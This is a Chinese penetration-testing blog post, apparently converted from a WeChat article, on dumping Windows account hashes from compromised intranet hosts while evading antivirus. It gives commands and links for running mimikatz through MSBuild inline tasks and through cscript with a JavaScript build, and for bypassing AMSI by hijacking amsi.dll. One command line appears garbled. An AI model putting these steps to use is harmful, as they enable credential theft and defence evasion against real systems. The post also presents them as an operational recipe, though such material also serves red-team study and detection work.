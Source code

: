 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/6mwms9LtLE6cK0ukpoSMmg)

这是 **酒仙桥六号部队** 的第 **145** 篇文章。

全文共计 3601 个字，预计阅读时长 10 分钟。

**前言**

在我们内网拿下机器时候，总会需要去抓取机器账户 HASH 值，但是往往大部分情况下机器存在杀软，有杀软的情况下服务器第一时间就干掉了最爱的 mimikatz。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQiaNx11SovDg3noicGialSVyRTFQVWONHfAuiaTyHtltRfCcG6tqfZf6ibuA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQwPv04UUQMIav7CAiaHvgIngxCkzG7Jibe7ZfBR3rNZVyKJh9jkfXncXQ/640?wx_fmt=png)

我们需要更多的方法去抓取 HASH，常见的方法就不再详细举例了。

**Net4.0 执行读取**

下载 xml 文件

https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20mimikatz.xml

进入 Net4.0 目录, 执行即可。

```
cd C:\Windows\Microsoft.NET\Framework64\v4.0.30319
.\MSBuild.exe 1.xml
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQSoB7kMBXbjrqS8kmiciaPUiaMtNibwr4rU6jK26uDFXtTFFgca0n6jVibEw/640?wx_fmt=png)

**JS 加载**

```
cscript mimikatz.js
```

它已经能被一些敏感的 AV 识别，我们可以对其进行 bypass，通过 DLL 劫持绕过。发现在 ProcessMonitor 可以看到进程调用 C:\Windows\System32\amsi.dll

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQyjL0ZMv9MSYumWQ67ueOvCZavVl8iaZYxE3XR3vTp0ngQNogjVlhoRw/640?wx_fmt=png)

我们直接对其 DLL 劫持即可。

```
copy c:\windows\system32\cscript amsi.dll
asmi.dll 11.js
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQSUbKJuBkyVAtSALkncibNAAElgu6BoR1kWCb0ImicGdibNZjgxaFibsYQg/640?wx_fmt=png)

如何生成 mimikatz 的 js 版本，可以参考看下面的介绍。

https://gist.github.com/pljoel/42dae5e56a86a43612bea6961cb59d1a

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQTQcAWCmYrkggn7xPjfVy1PLF9zxvzyySibMlQm5ibRrnyy9ciciaMw0HwA/640?wx_fmt=png)

这里用 csc 生成了 base64 加密的版本，再用使用 javascript 启动内存中的 mimikatz。
